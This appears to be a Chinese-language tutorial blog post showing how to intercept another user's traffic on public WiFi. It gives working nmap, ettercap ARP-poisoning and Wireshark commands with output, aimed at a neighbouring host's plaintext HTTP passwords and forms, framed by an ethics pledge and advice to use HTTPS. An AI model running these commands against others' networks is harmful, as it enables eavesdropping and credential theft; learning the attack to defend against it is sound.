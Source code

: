 ```yaml
---
title: "公共WIFI網路嗅探"
date: 2021-07-08T16:00:49+08:00
draft: false
tags: ["secure","ettercap","資安","檢查","wifi","中間人攻擊"]
featured_image: "/secure.jpg"
---
```


## 作者

阿維

## 同意條款

閱讀本篇文章等同承諾:  
1. 不將相關知識用在任何非法用途  
2. 不窺探他人隱私  
3. 保持誠實與友善  
4. 所有安全測試知識只用於維護安全的目的  
5. 測試用的器材僅限於自己擁有的主機與設備  
6. 測試的對象只限於自己  

## 概念

我們在使用公共WIFI，例如速食店或便利超商甚至學校時，我們必須非常謹慎，可能的話務必要使用有HTTPS協定的網站，如果沒有的話，也可以嘗試免費的proxy或者是Tor service，來對流量進行加密轉送。  

為什麼呢？  

我們底下將直接展示透過不安全的WIFI來擷取網頁瀏覽資料的實做。  

## 1.了解自己的IP與WIFI界面

用以下指令了解自己在該網段的IP，假設自身的網段為192.168.43.0，我們的網路界面為wlp0s20f3
```
ip address
```

如果在容器裡頭沒有該指令請另行下載
```
apt install -y iproute2
```

## 2.發覺跟我們一起共用WIFI的主機IP

跟我們共用同樣的IP就可以被我們監聽  

安裝nmap
```
apt install -y nmap
```

掃描我們WIFI網段上的主機
```
nmap  -sn  192.168.43.0/24 
```

以下掃描結果:  
```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-09 10:51 CST
Nmap scan report for _gateway (192.168.43.1)
Host is up (0.0028s latency).
MAC Address: F6:F6:F5:32:57:DA (Unknown)
Nmap scan report for pc (192.168.43.112)
Host is up (0.24s latency).
MAC Address: CC:C1:C9:CF:2E:A9 (AzureWave Technology)
Nmap scan report for alex (192.168.43.108)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.24 seconds

```

我們意識到三個主機:  
>1. 自己的主機:192.168.43.108  
>2. 目標監聽主機位址為192.168.43.112  
>3. wifi分享器(AP):192.168.43.1  

## 3.Ettercap啟動監聽

用Ettercap插入WIFI分享器與監聽對象中間  
這樣所以原本要通向WIFI分享器的封包都會路過我們的主機，被我們主機進行監測  

安裝ettercap命令行模式
```
apt install -y ettercap-common
```
在軟體ettercap裡頭輸入wifi分享器與目標監聽主機的IP，記得順序要正確
```
ettercap -T -S -i wlp0s20f3 -M arp:remote /192.168.43.1// /192.168.43.112//
```

結果
```
ettercap 0.8.3 copyright 2001-2019 Ettercap Development Team

Listening on:
wlp0s20f3 -> 50:2F:9B:33:37:CC
	  192.168.43.108/255.255.255.0
	  f780::6b75:a7f7:41af:7698/64

Ettercap might not work correctly. /proc/sys/net/ipv6/conf/all/use_tempaddr is not set to 0.
Ettercap might not work correctly. /proc/sys/net/ipv6/conf/wlp0s20f3/use_tempaddr is not set to 0.
Privileges dropped to EUID 55434 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
24609 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...
* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 192.168.43.1 15:16:55:32:77:DA

 GROUP 2 : 192.168.43.112 61:31:49:57:7E:C9

```
我們可以看到裡頭有一段，這代表我們成功監聽了兩個主機之間的無線流量了
```
ARP poisoning victims:

 GROUP 1 : 192.168.43.1 15:16:55:32:77:DA

 GROUP 2 : 192.168.43.112 61:31:49:57:7E:C9

```

## 4.Wireshark擷取封包

安裝wireshark
```
apt install wireshark
```
打開wireshark
```
sudo wireshark
```
打開wireshark在篩選器中輸入
```
ip.src==192.168.43.112 && http 
```
這樣就能指定擷取到對方HTTP的封包了。  

我們就可以看到目標監聽主機連上什麼網站了，而當沒有HTTPS的時候，目標主機的網站請求，密碼，表單輸入，通通都是明文呈現，可以被我們間聽到。

但如果是HTTPS的話就算擷取了，也是加密訊息，看不懂的！  
所以HTTPS等加密傳輸真的很重要唷～  


## 補充閱讀:
https://www.youtube.com/watch?v=-rSqbgI7oZM&t=832s&ab_channel=NetworkChuck  

